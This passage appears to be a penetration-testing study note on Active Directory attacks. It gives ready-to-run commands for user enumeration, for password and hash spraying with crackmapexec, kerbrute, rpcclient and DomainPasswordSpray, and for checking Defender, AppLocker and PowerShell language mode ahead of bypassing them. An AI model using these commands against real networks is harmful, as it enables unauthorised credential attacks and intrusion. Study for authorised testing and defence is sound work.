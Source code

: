 ```shell
kerbrute userenum -d <domain> --dc <DC IP> /opt/jsmith.txt 
```

With credentialed enumeration, it's once again really easy to get a users list:
```shell
sudo crackmapexec smb <IP> -u <user> -p <pass> --users
```
##### Spraying from Linux
There's many tools that can be used for this, here's a few:
```shell
# Crackmapexec
sudo crackmapexec smb <host> -u valid_users.txt -p <Password> | grep +
sudo crackmapexec smb <host> -u <User> -p <Password> # validating creds

# Kerbrute
kerbrute passwordspray -d <domain> --dc <IP> valid_users.txt <Password>

# Bash one-liner
for u in $(cat valid_users.txt);do rpcclient -U "$u%<Password>" -c "getusername;quit" <IP> | grep Authority; done
```

Here's a way to spray a hash against many machines:
```shell
sudo crackmapexec smb --local-auth <CIDR Range> -u administrator -H <hash> | grep +
```
The `--local-auth` flag tells the tool to only attempt one log in per machine so we don't lock out an account.
##### Spraying from Windows
Once again this is rare, but the easiest way to do it is from PowerShell using [`DomainPasswordSpray`](https://github.com/dafthack/DomainPasswordSpray):
```PowerShell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password <Password> -OutFile spray_success -ErrorAction SilentlyContinue

# This tool generates a user list for us, if we wanted to set one we could use the flag -UserList
```
# Enumerating Security Controls
For any of this enumeration to work, we'll always need valid credentials for at least a single domain user.

### Important Security Controls
**Windows Defender**
Windows has their own firewall that'll block a lot of our tools. If it's enabled, it'll need to be bypassed later. Here's how we can check its status (Look at `RealTimeProtectionEnabled`):
```PowerShell
Get-MpComputerStatus
```
**AppLocker**
This is Microsoft's solution to an application whitelist. It's common for organizations to block `cmd.exe` and `powershell.exe`. Many organizations block only one instance of PowerShell, but forget about the other [PowerShell executable locations](https://www.powershelladmin.com/wiki/PowerShell_Executables_File_System_Locations).
```PowerShell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
**PowerShell Constrained Language Mode**
This locks down a lot of PowerShell features, such as blocking COM objects, only allowing approved .NET types, etc. We can check using:
```PowerShell
$ExecutionContext.SessionState.LanguageMode
```
**Windows LAPS**